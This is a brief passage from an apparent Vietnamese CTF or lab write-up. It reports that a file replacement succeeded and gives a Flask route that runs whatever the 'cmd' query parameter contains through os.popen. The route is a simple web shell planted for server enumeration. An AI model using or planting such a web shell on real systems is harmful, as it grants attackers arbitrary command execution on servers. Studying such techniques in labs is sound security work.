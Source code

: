 ![](../../attachments/Screenshot_2022-07-22_03_40_08.png)

→ **BOOM** replace file thành công. Đến đây mình có thể hoàn toàn upload shell để tương tác với server.

Thay đổi một chút ở đoạn code trên để tạo ra `web shell` đơn giản phục vụ cho việc enum tiếp theo.

```python
<--SNIP-->
@app.route('/system')
def cmd():
    return '''
<html>
    <body>
        <h1>'''+ os.popen(request.args.get('cmd')).read() +'''</h1>
    </body>
</html>
    '''
```
